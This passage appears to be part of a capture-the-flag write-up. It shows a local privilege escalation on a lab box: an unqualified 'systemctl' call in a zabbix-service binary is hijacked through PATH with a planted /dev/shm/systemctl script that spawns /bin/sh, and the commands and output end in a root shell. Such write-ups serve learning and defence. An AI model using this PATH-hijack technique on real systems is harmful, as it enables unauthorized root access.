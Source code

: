 ```
<... system resumed> )= 256
+++ exited (status 0) +++

```

Of interest, there’s a call towards the end: `system("systemctl daemon-reload && syste`. It’s a bit cut off, but I can see it better in `strings`:

```

zapper@zipper:~/utils$  strings zabbix-service | grep system
system
systemctl daemon-reload && systemctl start zabbix-agent
systemctl stop zabbix-agent
system@@GLIBC_2.0

```

That’s calling `system` on `systemctl` without a path. If I change the path and call again, I can replace systemctl with my own thing to run.

Save the old path, and then set the path to `/dev/shm`:

```

zapper@zipper:~/utils$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
zapper@zipper:~/utils$ export OLD=$PATH
zapper@zipper:~/utils$ export PATH=/dev/shm

```

Now if I run `zabbix-service`, it fails:

```

zapper@zipper:~/utils$ ./zabbix-service 
start or stop?: start
sh: 1: systemctl: not found

```

Now drop a sh script to run a shell:

```

zapper@zipper:~/utils$ /bin/cat /dev/shm/systemctl 
#!/bin/sh

/bin/sh

```

And run again:

```

zapper@zipper:~/utils$ ./zabbix-service 
start or stop?: start
# id
/bin/sh: 1: id: not found
# echo $OLD
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
# export PATH=$OLD
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare),1000(zapper)

```
